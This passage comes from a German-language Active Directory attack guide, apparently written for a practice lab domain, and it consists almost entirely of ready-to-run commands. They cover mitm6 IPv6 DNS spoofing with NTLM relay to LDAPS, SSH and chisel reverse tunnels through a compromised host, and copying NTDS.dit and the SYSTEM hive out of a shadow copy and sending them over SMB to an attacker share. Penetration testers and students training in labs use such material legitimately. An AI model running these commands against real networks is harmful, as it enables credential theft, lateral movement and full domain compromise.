 #### IPv6 DNS Takeover (mitm6)
```bash
# Installation
pip3 install mitm6

# mitm6 für IPv6 DNS Spoofing
mitm6 -d north.sevenkingdoms.local -i eth0

# Parallel ntlmrelayx für ADCS/LDAP Relay
ntlmrelayx.py -t ldaps://192.168.20.11 -wh attacker-wpad --delegate-access
```

### 5.2 Tunneling & Pivoting

#### SSH Tunneling via Compromised Host
```bash
# SSH Server auf Windows einrichten (via PowerShell)
# Auf kompromittiertem Host:
Add-WindowsCapability -Online -Name OpenSSH.Server~~~~0.0.1.0
Start-Service sshd
Set-Service -Name sshd -StartupType 'Automatic'

# Von Attacker-Machine: SSH Tunnel erstellen
ssh -L 3389:192.168.20.10:3389 jon.snow@192.168.20.11
ssh -L 1433:192.168.20.22:1433 jon.snow@192.168.20.11
```

#### Chisel for HTTP Tunneling
```bash
# Chisel herunterladen
wget https://github.com/jpillora/chisel/releases/latest/download/chisel_1.7.7_linux_amd64.gz
gunzip chisel_1.7.7_linux_amd64.gz
chmod +x chisel_1.7.7_linux_amd64
mv chisel_1.7.7_linux_amd64 /usr/local/bin/chisel

# Server auf Attacker-Machine
chisel server --reverse --port 8000

# Client auf kompromittiertem Host (PowerShell)
.\chisel.exe client 192.168.1.100:8000 R:1433:192.168.20.22:1433
```

---

## 6. Post-Exploitation & Data Exfiltration

### 6.1 NTDS.dit Exfiltration

#### Volume Shadow Copy Method
```powershell
# Via WinRM/RDP auf Domain Controller
PS> vssadmin create shadow /for=C:
PS> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\temp\ntds.dit
PS> reg save HKLM\SYSTEM C:\temp\system.hiv
PS> vssadmin delete shadows /shadow={shadow_id}

# Exfiltration via SMB
PS> copy C:\temp\ntds.dit \\attacker-ip\share\
PS> copy C:\temp\system.hiv \\attacker-ip\share\
```
